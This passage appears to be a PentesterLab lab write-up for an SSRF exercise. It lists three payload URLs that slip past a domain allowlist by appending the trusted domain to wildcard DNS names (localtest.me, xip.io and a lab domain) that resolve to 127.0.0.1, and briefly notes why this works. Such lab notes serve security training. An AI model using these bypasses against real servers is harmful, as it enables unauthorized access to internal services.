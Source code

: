 #### 5.1. SSRF 4 (Pentesterlab)

```
$target/?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234
$target/?url=http://assets.pentesterlab.com.localtest.me:1234
$target/?url=http://assets.pentesterlab.com.127.0.0.1.xip.io:1234
```

Note:
   - main domain `hackingwithpentesterlab.link`
   - `*.hackingwithpentesterlab.link` always returns `127.0.0.1`
   - `assets.pentesterlab.com.<DOMAIN>` will bypass the domain validation
   - `http://readme.localtest.me/`
   - `127.0.0.1.xip.io` or `<ANY_IP>.xip.io`
